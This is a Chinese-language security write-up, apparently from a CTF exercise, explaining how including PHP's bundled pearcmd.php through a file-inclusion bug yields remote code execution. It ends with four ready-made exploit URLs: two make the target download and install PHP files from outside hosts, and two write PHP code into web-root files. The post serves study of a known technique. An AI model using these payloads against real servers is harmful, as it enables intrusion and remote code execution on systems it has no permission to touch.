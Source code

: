 # LFI利用php自带的pearcmd.php直接RCE

在做巅峰极客的一题时，用到了包含pearcmd.php从而RCE的点（perlcmd.php也是一样的），今天来研究一下这个点

## 产生原因

阅读pearcmd.php中关于参数产生的那部分代码发现：

```php
...
if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv'])) {
    echo 'ERROR: either use the CLI php executable, ' .
         'or set register_argc_argv=On in php.ini';
    exit(1);
}

$argv = Console_Getopt::readPHPArgv();
...
array_shift($argv);//这里删除了第一个argv，通常argv[0]是程序名
...
```



`Getopt.php:readPHPArgv`

```php

    public static function readPHPArgv()
    {
        global $argv;
        if (!is_array($argv)) {
            if (!@is_array($_SERVER['argv'])) {
                if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                    $msg = "Could not read cmd args (register_argc_argv=Off?)";
                    return PEAR::raiseError("Console_Getopt: " . $msg);
                }
                return $GLOBALS['HTTP_SERVER_VARS']['argv'];
            }
            return $_SERVER['argv'];
        }
        return $argv;
    }
```



我们发现这里的参数是从`$_SERVER['argv']`（旧版本的就是：`$GLOBALS['HTTP_SERVER_VARS']['argv']`）中获取的

我们来测试一下`$_SERVER['arvg']`,测试代码：`var_dump($_SERVER['argv']);`

访问http://127.0.0.1:60080/?1+2+3+4+%20+%dd

```
/var/www/html/index.php:4:
array (size=6)
  0 => string '1' (length=1)
  1 => string '2' (length=1)
  2 => string '3' (length=1)
  3 => string '4' (length=1)
  4 => string '%20' (length=3)
  5 => string '%dd' (length=3)
```

在$_SERVER['argv']中的所有url编码都不会被解析，只是当成普通字符串，而+会被解析成参数的分隔符

于是我们便可以像在命令行一样调用pearcmd.php了，接下来就变成了利用pearcmd这个命令getshell，直接命令行尝试（太懒了）

查看pearcmd.php的帮助：`php pearcmd.php [options] command [command-options] <parameters>`，那么我们传参就得变成

`url/?+[options]+command+[command-options]+<parameters>`，?后面必须跟一个+号让其作为$argv[0],这里要注意+号的数量，因为这是拿来作为分隔符的如：`?++`就会被解析成`["","",""]`



## 利用条件

![image-20201020153756503](https://raw.githubusercontent.com/Explorersss/photo/master/20201020153757.png)

1. register_argc_argv=On（默认是开的）
2. 包含pearcmd.php或者peclcmd.php






## payload
这里直接给出payload，都是直接看帮助写出来的，没啥好说的。



exp1:

需要出网

```
http://192.168.43.230:60080/?+install+--installroot+/tmp/+http://ccreater.top:60006/evil.php++++++++++++++$&f=pearcmd.php&#把GET参数都塞到最后面
http://192.168.43.230:60080/?f=/tmp/tmp/pear/download/install.php
```



exp2:

需要出网

会下载到当前文件夹

```
http://192.168.43.230:60080/?+download+https://fuckyou.free.beeceptor.com/fuckyou.php+&f=pearcmd.php#都塞到最后面
http://192.168.43.230:60080/?f=fuckyou.php
```



exp3:

```php
http://192.168.43.230:60080/?+config-create+/<?=phpinfo();?>/*+/var/www/html/&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM.php#把GET参数都塞到路径中，这里可以用url编码来防止空格,/等对文件生成造成影响的字符
http://192.168.43.230:60080/&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM.php
```



exp4:

**最好用**

```
http://192.168.43.230:60080/?+-c+/var/www/html/config2.php+-d+man_dir=<?phpinfo();?>/*+-s+list&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM#参数塞到最后面
http://192.168.43.230:60080/config2.php
```

